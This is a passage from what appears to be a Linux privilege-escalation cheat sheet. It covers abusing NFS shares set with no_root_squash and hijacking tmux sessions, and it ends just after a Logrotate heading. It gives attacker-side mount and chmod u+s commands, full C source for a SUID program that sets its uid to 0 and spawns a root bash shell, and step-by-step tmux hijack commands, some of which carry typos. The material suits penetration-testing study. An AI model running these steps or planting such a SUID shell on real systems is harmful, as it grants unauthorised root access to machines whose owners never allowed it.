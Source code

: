 Internally, if we take a look at `/etc/exports` we'll find any wirtable shares (shared directories) exposed to network mounting connection requests.

If in the properties there is a `no_root_squash` option for any of these mountable drive then we can mount the drive from our attacker machine **as local root**:

```
link@kali:~$ sudo mount -t nfs <TARGET_IP>:<TARGET_MOUNT> /mnt
link@kali:~# cp shell /mnt/
link@kali:~# chmod u+s /mnt/shell
```

Then write a file with malicious code like the C script and save it to the mounting directory share space **with SUID bits** enabled.

```
target@hacked:~$ /path/to/mount/shell
```

E.g. malicious SUID script:

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void) {
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```

Running this file from target user@target machine will escalate privileges to root and can spawn a shell.


## Hijacking tmux

The `tmux` terminal multiplexer application may have a process running as root (or other privileged user) set up with weak permissions, which can be hijacked

Achieved as per below, which:
1. Creates a new shared session: `tmux -s /shared new -s debugsess`
2. Modifies the ownership: `chown root:devs /shareds`
    - To hijack the above example, we need to have access to the `devs` group. We can replace `devs` which another group X that we have access to.
3. Now we can check processes: `ps aux | grep tmux`
4. Then confirm permissions have been set: `ls -al /shareds`
5. And finally escalate privileges: `tmux -S /shareds`


## Logrotate / Logrotten

Logrotate is responsible for rotating old logs into minimised files, archives or straight up deleting them to conserve space.

